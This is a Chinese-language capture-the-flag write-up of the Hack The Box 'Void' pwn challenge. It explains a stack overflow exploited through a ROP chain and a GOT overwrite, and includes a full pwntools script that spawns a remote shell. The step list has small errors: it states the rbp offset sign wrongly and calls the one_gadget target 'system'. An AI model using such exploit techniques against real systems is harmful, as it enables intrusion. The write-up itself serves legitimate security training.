


# pwn - Void Writeup

---  


## FLAG：
`HTB{pwnt00l5_h0mep4g3_15_u54ful}`

## 觀察：
- 吃input後退出。
- checksec：Partial RELRO
- 題目提供libc，有One Gadget。

## 思路：
- IDA分析`vuln()`輸入字串的地方有bof漏洞，可以溢出138bytes，使用ROP chain。
- Partial RELRO可以使用GOT hijacking，ret2libc。

## 目標：
- 使用ROP chain與GOT hijacking拿到shell。

## 步驟：
1. payload部分：
	1. 填充64+8個`A`將buffer與saved rbp填滿。
	2. 跳到`0x4011b2`，設定`rbx`為`one_gadget`與`read`在`libc`中的差值、設定rbp為`read@got - 0x3d`以便下一個步驟寫入、`r12~r15`設為0。
	3. 跳到`0x401108`執行`add dword ptr [rbp - 0x3d], ebx`，此時read的got內容會被調整成`system`的位址。
	4. 跳到`read@plt`成功執行shell。

## Exploit：  

```python
#!/usr/bin/env python3
  
from pwn import *
  
exe = ELF("./void", checksec=False)
libc = ELF("./glibc/libc.so.6", checksec=False)
ld = ELF("./glibc/ld-linux-x86-64.so.2", checksec=False)
  
context.binary = exe
context.arch = 'amd64'
context.encoding = 'latin'
context.log_level = 'INFO'
warnings.simplefilter("ignore")
  
r = remote('83.136.254.60',54661)
# r = process('./void')
  
 
pop_rbx_rbp_r12_r13_r14_r15 = 0x4011b2
add_rbp_ebx = 0x401108
"""
add dword ptr [rbp - 0x3d], ebx
nop dword ptr [rax + rax]
ret
"""
  
read_plt = exe.plt['read']
read_got = exe.got['read']
read_addr = libc.symbols['read']
one_gadget = 0xc961a
offset = (one_gadget-read_addr)&0xFFFFFFFF
print(f'{hex(read_plt) = }')
print(f'{hex(read_got) = }')
print(f'{hex(read_addr) = }')
  
# Load stage 2 rop ec780
payload = b'A'*72
payload += p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(offset) + p64(read_got+0x3d) + p64(0)*4
payload += p64(add_rbp_ebx)
payload += p64(read_plt)
r.sendline(payload)
r.interactive()
```

